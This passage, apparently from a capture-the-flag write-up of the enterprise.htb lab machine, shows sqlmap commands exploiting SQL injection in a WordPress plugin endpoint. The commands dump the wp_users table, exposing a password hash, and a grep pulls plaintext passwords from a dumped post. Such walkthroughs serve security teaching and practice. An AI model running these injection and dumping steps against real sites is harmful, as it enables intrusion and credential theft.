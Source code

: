     | wp_terms              |
    | wp_usermeta           |
    | wp_users              |
    +-----------------------+
    ...[snip]...



Dumping `wp_users` gives a hash for william.riker:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_users --dump ...[snip]...
    Table: wp_users
    [1 entry]
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    | ID | user_url | user_pass                          | user_email                   | user_login    | user_status | display_name  | user_nicename | user_registered     | user_activation_key |
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    | 1  | <blank>  | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. | william.riker@enterprise.htb | william.riker | 0           | william.riker | william-riker | 2017-09-03 19:20:56 | <blank>             |
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    ...[snip]...



Earlier I used the `lcars_dbpost.php` page to list all the posts in the
DB, and there was one called passwords. I'll dump the `wp_posts` table
as well:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts --dump
    ...[snip]...
    [14:22:25] [INFO] table 'wordpress.wp_posts' dumped to CSV file '/home/oxdf/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv'



This prints a huge amount of output that's difficult to show in the
terminal. But it does also write it to a file as a `.csv`, so I can open
it in Excel or even just `less -S` (turns off line wraps) to explore it.
Or I can remember that it was three posts titled "Passwords" and use
`grep`:



    oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv
    66,http://enterprise.htb/?p=66,<blank>,<blank>,2017-09-06 15:40:30,<blank>,post,0,Passwords,open,1,0,draft,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,0000-00-00 00:00:00,2017-09-06 15:40:30,<blank>,open,<blank>,2017-09-06 14:40:30,<blank>
    67,http://enterprise.htb/?p=67,<blank>,<blank>,2017-09-06 15:28:35,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:28:35,2017-09-06 15:28:35,<blank>,closed,<blank>,2017-09-06 14:28:35,<blank>
    68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:40:30,2017-09-06 15:40:30,<blank>,closed,<blank>,2017-09-06 14:40:30,<blank>
